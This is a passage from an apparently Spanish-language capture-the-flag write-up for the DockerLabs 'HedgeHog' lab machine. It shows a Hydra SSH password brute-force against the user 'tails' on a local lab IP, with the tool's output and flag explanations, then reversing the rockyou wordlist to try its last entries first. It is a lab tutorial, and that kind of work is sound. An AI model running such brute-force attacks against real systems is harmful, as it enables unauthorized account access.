 En el puerto 22 nos encontramos con un servicio *OpenSSH* actualizado a una versión relativamente reciente, lo que indica que no presenta ninguna vulnerabilidad conocida (versiones < 7.7) por lo que nos centraremos primero en el servicio HTTP del puerto 80.  Para ello nos dirigiremos al navegador y escribiremos la dirección IP. 

![Mensaje](https://github.com/JavieRR13/WriteUps/blob/70493b2edc4bdf17463586f8e449dda90b448450/DockerLabs/Muy%20f%C3%A1cil/HedgeHog/Im%C3%A1genes/HedgeHog_Mensaje.png)
En la web solo nos encontramos con este mensaje.  Inspeccionando un poco el código fuente de la página tampoco parece haber nada.  Lo único que nos queda es asumir que es un usuario válido en SSH y probarlo con un ataque de fuerza bruta utilizando [Hydra](https://github.com/vanhauser-thc/thc-hydra) usando "tails" como nombre de usuario y el diccionario [rockyou.txt](https://github.com/topics/rockyou-wordlist) para comprobar contraseñas.
```ruby
> hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-08 22:56:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 252.00 tries/min, 252 tries in 00:01h, 14344148 to do in 948:42h, 15 active
[STATUS] 245.00 tries/min, 735 tries in 00:03h, 14343665 to do in 975:46h, 15 active
[STATUS] 237.14 tries/min, 1660 tries in 00:07h, 14342740 to do in 1008:02h, 15 active
[STATUS] 233.93 tries/min, 3509 tries in 00:15h, 14340891 to do in 1021:44h, 15 active
```
* Con -l seleccionamos el usuario.
* Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.

Después 10 minutos de espera y, sin ninguna respueta, asumo que hay algo mal en mi planteamiento y decido usar otros diccionarios e incluso usar "tails" como contraseña y buscar por usuarios.  Tras mucho tiempo de pruebas y, viendo el nombre de la máquina (tail = cola), que además es un comando propio de Linux, decido invertir el diccionario [rockyou.txt](https://github.com/topics/rockyou-wordlist) para que comience la explotación por la última palabra del diccionario en el buen orden. 
```ruby
❯ touch rockyou_invertido.txt
❯ chmod 644 rockyou_invertido.txt
❯ tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
❯ head rockyou_invertido.txt
*7¡Vamos!
a6_123
abygurl69
ie168
```